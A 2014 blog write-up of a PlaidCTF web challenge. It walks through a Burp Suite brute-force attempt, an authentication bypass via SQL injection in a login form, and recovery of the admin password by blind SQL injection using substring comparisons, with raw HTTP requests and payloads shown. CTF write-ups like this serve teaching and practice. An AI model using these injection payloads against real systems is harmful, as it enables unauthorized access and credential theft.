 ```yaml
---
id: 1873
title: 'PlaidCTF writeup for Web-100 &#8211; PolygonShifter (blind sql injection)'
date: '2014-04-17T12:55:06-05:00'
author: 'Ron Bowes'
layout: post
guid: 'https://blog.skullsecurity.org/?p=1873'
permalink: /2014/plaidctf-writeup-for-web-100-blind-sql-injection
categories:
    - Hacking
    - 'PlaidCTF 2014'
    - Tools
---
```


Hey folks,

I know in my last blog I promised to do a couple exploit ones instead of doing boring Web stuff. But, this level was really easy and I still wanted to do a writeup, so you're just going to have to wait a little while longer for my 'kappa' writeup!
<!--more-->
This 100-point Web challenge, called PolygonShifter, basically added some anti-bot defenses to a Web site by obfuscating the username/password field names, as well as the action for the POST request. When you visited the page, you'd see something like this:

<pre>
<span class="htmlTag">&lt;</span><span class="htmlTagName">form</span><span class="htmlTag"> </span><span class="htmlArg">action</span><span class="htmlTag">=</span><span class="Constant">&quot;/S1tl90gme2GJ67epbZz9&quot;</span><span class="htmlTag"> </span><span class="htmlArg">method</span><span class="htmlTag">=</span><span class="Constant">&quot;POST&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Username<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;text&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;lK1TFqrcp3fvIRSg8V7T&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;L1UIVbxzFD8wUUo8SaJH&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Password<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;password&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;LmmURBa3S5NRYBwzHXhC&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">class</span><span class="htmlTag">=</span><span class="Constant">&quot;primary large&quot;</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;submit&quot;</span><span class="htmlTag"> </span><span class="htmlArg">value</span><span class="htmlTag">=</span><span class="Constant">&quot;Login&quot;</span><span class="htmlTag">&gt;</span>
<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">form</span><span class="htmlEndTag">&gt;</span>
</pre>

I immediately installed the 'httparty' gem and started writing a solution in ruby, when I had an inspiration. I tried using the same action multiple times, and it worked! It would only work for a few minutes before I had to refresh and get a new one. But, that was enough!

I decided&mdash;incorrectly&mdash;that this was likely a brute-force level, so I fired up Burp Suite, chose 'Intruder' mode, and set it to something like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 56</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=§password§</span>
</pre>

Then I used Burp Suite's built-in list of passwords to attack the account.

I let the attack run through the ~1000 or so passwords, then added a filter for 'Hello, ' (in order to find good attempts). There weren't any. Damnit, now I need a new plan!

...then, on a random inspiration, I tried an invert search for 'Wrong password'. And there was one entry: a password containing a single quote returned "An error occurred" instead of "Wrong password". *facepalm*, it's sql injection!

So, I tried logging in with:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or 1=1-- </li>
</ul>

And immediately, I'm logged in... as 'test'. Derp!

So I changed my credentials to:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or username='admin'-- </li>
</ul>

(Don't forget to put a space after the '--' if you're following along!)

And boom! I'm logged in as 'admin'! Finished, right? WRONG! The banner says: "Hello, admin!! My password is the flag!"

Now, it sounds like I need to recover admin's password. CHALLENGE. ACCEPTED.

I threw together a quick Burp Suite Intruder attack that looked like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 53</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=%27+or+%28username%3D%27admin%27+and+binary+substring%28password%2C+§1§%2C+1%29+%3D+%27§a§%27%29--+</span>
</pre>

To clean it up, it's basically:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or (username='admin' and binary substring(password, $1, 1) = '$2')</li>
</ul>

(Where $1 and $2 are Burp Suite's marked fields)

Then I set Burp Suite to use a 'Cluster Bomb' style of attack, which means that each field has its own set of values that are tried. Then I set the two variables to:

<ul>
  <li>$1 :: numeric, 1 - 45 (I had to keep expanding this since the password was 30+ characters long!)</li>
  <li>$2 :: custom set, a-z A-Z 0-9 + symbols</li>
</ul>

Then I let it run, filtered for 'Hello', and got the following results:

<img src='https://blogdata.skullsecurity.org/polygonshifter-solution.png'>

Boom! Arrange those properly and you have your password. :)

